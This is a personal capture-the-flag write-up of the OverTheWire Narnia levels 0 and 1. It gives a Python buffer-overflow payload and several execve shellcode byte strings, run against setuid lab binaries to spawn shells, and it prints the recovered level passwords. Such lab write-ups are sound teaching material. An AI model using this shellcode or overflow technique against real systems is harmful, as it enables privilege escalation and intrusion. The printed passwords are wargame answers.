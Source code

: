 ## OverTheWire: Narnia
After the frusration and lack of success in the Oman Quals CTF, I've decided to redirect my attention to some of the OverTheWire challenges. I've already completed both the Bandit and Leviathon series of challenges, but will not be doing write-ups on those due to the amount of resources already out there.

### Narnia0
After logging in with the username and password `narnia0` and reading the Welcome banner. It is discovered that the passwords for each level are stored in /etc/narnia_pass/narniaX and the programs to be exploited are in /narnia/ (as well as the source code for said programs).

After looking at the code for narnia0.c, we can see that we need the 'val' variable to be equal to 0xdeadbeef which can be done with a buffer overflow since the 'buf' variable that is read-in from user input is just before the val variable on the stack. Also, because the executable narnia0 has the setuid bit set (s in the owner execute spot in a long listing) the shell that is run in the program will have the privileges of the owner, i.e. narnia1, and allow us to view that users password file.

```
int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```

By entering `(python -c 'print "A"*20 + "\xef\xbe\xad\xde"*10')` and piping it into the file we don't get the "WAY OFF!!!!" that we normally would but we also don't get the shell that we expect. So we know it works (kind of) but why are we using those commands. Well '-c' is used to tell python that the following information will be command-line input. Then the 20 A's are used to take up the space in the 'buf' variable and finally we have the 0xdeadbeef in reverse byte-order to account for how the bytes are stored in memory (most PCs are little-endian, i.e. the byte with the littlest value is stored first, this can be checked with the command `lscpu | grep "Byte Order"`).

Now we just have to add something to leave the input open after our code is run (after some research, I found the best way to do this was via the `cat` command).

So the full series of commands is as follows:
```
narnia0@narnia:~$ (python -c 'print "A"*20 + "\xef\xbe\xad\xde"'; cat) | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ▒
val: 0xdeadbeef
whoami
narnia1
```
And we can use this to find our flag:
```
cat /etc/narnia_pass/narnia1
efeidiedae
```

### Narnia1
At first, I thought this one would be easier than the previous challenge. As you can see from the code below, the program attempts to execute code located at the EGG environment variable. Environment Variables are globally accessable variablesfor sharing information between different applications and processes (they can be viewed by entering the `env` command). Since this program runs as Narnia2 (it has a higher privelege as in the last challenge), we want to get the program to open a shell so we can view the Narnia2 password.

```
int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```

I initially attempted to simply set $EGG to '/bin/sh' (the $ symbol is used when accessing a global variable). I ran the program and got: `Trying to execute EGG! Segmentation fault`, so that didn't work. It's just displaying the string instead of executing the code and opening the shell. What we need is shellcode!

Shellcode is made up of commands used as the payload for exploitation, named so because of its ability to open a command shell. My first attempt was using the shellcode from **Hacking: The Art of Exploitation** but this attempt didn't work either. After some research, I discovered that my problem was due to the fact that shellcode must be tailored to the machine it is running on. To check our target system, we enter `lscpu`. From here we discover the following:
```
Architecture:          x86_64
CPU op-mode(s):        32-bit, 64-bit
Byte Order:            Little Endian
CPU(s):                2
On-line CPU(s) list:   0,1
Thread(s) per core:    1
Core(s) per socket:    2
Socket(s):             1
Vendor ID:             GenuineIntel
CPU family:            15
Model:                 6
Model name:            Common KVM processor
Stepping:              1
CPU MHz:               3074.244
BogoMIPS:              6148.48
Hypervisor vendor:     KVM
Virtualization type:   full
L1d cache:             32K
L1i cache:             32K
L2 cache:              4096K
L3 cache:              16384K
```

We can see that our target computer is being run on a Virtual Machine, is 64-bit, and has an Intel processor (and we already know it's running Linux due to it's file system). So after searching for Linux x86_64 shellcode, I found some and placed it in the EGG variable.
```
narnia1@narnia:~$ export EGG=$(echo -en "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05")
narnia1@narnia:~$ echo $EGG
1▒H▒ѝ▒▒Ќ▒▒H▒▒ST_▒RWT^▒;
narnia1@narnia:~$ /narnia/narnia1
Trying to execute EGG!
Segmentation fault
```
That didn't work, so I tried with some different shellcode, and then I tried again, and again, and again...
```
narnia1@narnia:~$ export EGG=$(echo -en "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05")
narnia1@narnia:~$ /narnia/narnia1
Trying to execute EGG!
Illegal instruction
narnia1@narnia:~$ export EGG=$(echo -en "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05")
narnia1@narnia:~$ /narnia/narnia1
Trying to execute EGG!
Segmentation fault
narnia1@narnia:~$ export EGG=$(echo -en "\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05")
narnia1@narnia:~$ /narnia/narnia1
Trying to execute EGG!
narnia1@narnia:~$ export EGG=$(echo -en "\xeb\x18\x5e\x31\xc0\x88\x46\x09\x89\x76\x0a\x89\x46\x0e\xb0\x0b\x89\xf3\x8d\x4e\x0a\x8d\x56\x0e\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x64\x61\x73\x68\x41\x42\x42\x42\x42\x43\x43\x43\x43")
narnia1@narnia:~$ /narnia/narnia1
Trying to execute EGG!
$ whoami
narnia2
$ cat /etc/narnia_pass/narnia2
nairiepecu
```
...until I finally got it. Whew! That took a lot longer than expected.

I hope this helped to explain some basic computer exploitation principles in regards to environment variables. As for shellcode, I'll do some reading up on that and provide some better explanations in the future.

### Narnia2
**TBD**

